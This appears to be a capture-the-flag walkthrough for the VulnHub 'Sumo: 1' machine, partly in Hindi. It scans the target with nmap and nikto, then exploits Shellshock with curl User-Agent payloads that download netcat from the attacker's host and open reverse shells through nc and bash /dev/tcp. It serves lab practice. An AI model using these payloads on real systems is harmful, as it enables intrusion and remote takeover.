










# Sumo : 1

\

## 

## Sumo : 1

- **Sumo : 1** :-

<!-- -->

- Download the machine : <https://www.vulnhub.com/entry/sumo-1,480/>

- Now unzip the file .
- Open ovf file .
- Then click finish .
- Start the machine .

<!-- -->

- Find the machine ip :

    nmap -sn 192.168.2.0/24 

- Find the available port :

    nmap -v -p- 192.168.2.147

- Start by scanning the target with nmap to identify open ports and
  services running on the machine : This command performs a basic scan
  on port 80 and attempts service version detection .

    nmap -v -p 80 -sT -sV -A 192.168.2.147

- Use nmap with the http-enum script to gather more detailed information
  on the target web server : This command runs an aggressive scan and
  uses the http-enum script to identify potential CGI directories .

    nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.147

- Scan all common CGI directories : This checks for vulnerabilities
  across the target HTTP service on port 80.

    nikto -C all -h http://192.168.2.147/ 

- 

    nikto -Cgidirs all -h 192.168.2.147

- 

    nikto -C all -h 192.168.2.147

 Isme shellshock ki vulnerability h .

- Once you identify the target and confirm it's vulnerable to
  ShellShock, you can send HTTP requests to trigger the vulnerability
  via the User-Agent header.

<!-- -->

- Now check what is running in this ip : <http://192.168.2.147/>

- WGET Command to Download Files :

    nmap -v -p 80 -sT -sV --script=http-shellshock.nse --script-args uri=/cgi-bin/test/test.cgi,cmd="/usr/bin/wget http://192.168.2.219" 192.168.2.147

 

- Reverse Shell Commands :

<!-- -->

- If you gain remote code execution, you can attempt to spawn a reverse
  shell.

<!-- -->

- Reverse Shell via Netcat :

<!-- -->

- nc placed in server : Jis place me nc h us place me python k server
  start krna h phir browser me ip call kr ke copy link address krna h .

    curl -H "User-Agent: () { :; }; /bin/bash -c 'wget http://192.168.2.219/nc64 -O /tmp/nc64'" http://192.168.2.147/cgi-bin/test/test.cgi --proxy http://127.0.0.1:8080

  nc placed.

    curl -H "User-Agent: () { :; }; /bin/bash -c 'chmod 777 /tmp/nc64'" http://192.168.2.147/cgi-bin/test/test.cgi --proxy http://127.0.0.1:8080

    nc -nlvp 443

    curl -H "User-Agent: () { :; }; /bin/bash -c '/tmp/nc64 -e /bin/bash 192.168.2.219 443'" http://192.168.2.147/cgi-bin/test/test.cgi --proxy http://127.0.0.1:8080

  reverse shell take it .

- Reverse Shell via Bash :

    nc -nlvp 443

    curl -A '() { ignored; }; echo Content-Type: text/plain ; echo ; echo ; /bin/bash -i >& /dev/tcp/192.168.2.219/443 0>&1' http://192.168.2.147/cgi-bin/test/test.cgi

 

